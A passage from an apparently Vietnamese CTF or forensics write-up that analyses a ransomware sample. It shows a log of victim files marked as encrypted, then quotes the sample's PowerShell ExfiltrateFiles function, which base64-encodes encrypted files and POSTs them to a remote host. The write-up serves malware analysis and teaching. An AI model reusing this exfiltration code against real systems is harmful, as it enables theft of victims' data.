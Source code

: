 ```
[!] C:\Users\IEUser\Documents\13bae5d78b3351adcd58116cc58465ed.png is now encrypted [!] C:\Users\IEUser\Documents\248368233_230702282385338_6224698627922749235_n.jpg is now encrypted [!] C:\Users\IEUser\Documents\ad1639ada044a912032925bdc7f132c8.jpg is now encrypted [!] C:\Users\IEUser\Documents\black.png is now encrypted [!] C:\Users\IEUser\Documents\flag_1.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_10.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_11.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_12.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_13.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_14.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_15.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_16.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_17.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_18.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_19.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_2.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_20.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_21.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_22.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_23.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_24.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_25.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_26.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_27.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_28.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_29.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_3.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_30.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_31.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_32.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_33.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_34.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_35.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_36.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_37.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_38.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_39.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_4.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_40.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_41.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_42.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_43.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_44.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_45.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_46.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_47.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_48.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_49.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_5.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_50.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_51.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_52.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_53.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_54.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_55.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_56.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_57.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_58.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_59.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_6.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_7.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_8.txt is now encrypted [!] C:\Users\IEUser\Documents\flag_9.txt is now encrypted [!] C:\Users\IEUser\Documents\IoT_security_IoTSec_considerations_requirements_and_architectures.pdf is now encrypted [!] C:\Users\IEUser\Documents\jM-z3b7f_400x400.jpg is now encrypted [!] C:\Users\IEUser\Documents\mim.png is now encrypted [!] C:\Users\IEUser\Documents\pexels-sebastiaan-stam-1097456.jpg is now encrypted [!] C:\Users\IEUser\Documents\vietnam.jpg is now encrypted [!] C:\Users\IEUser\Documents\z3399223868975_f9672eaf281fbf6771659ccb18692a12.jpg is now encrypted
```


- Có thể thấy có nhiều tệp từ flag_1 đến flag_59 bị encrypt. Bây giờ ta xem nội dung nó sẽ bị mã hoá và gửi đi như thế nào

```powershell
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
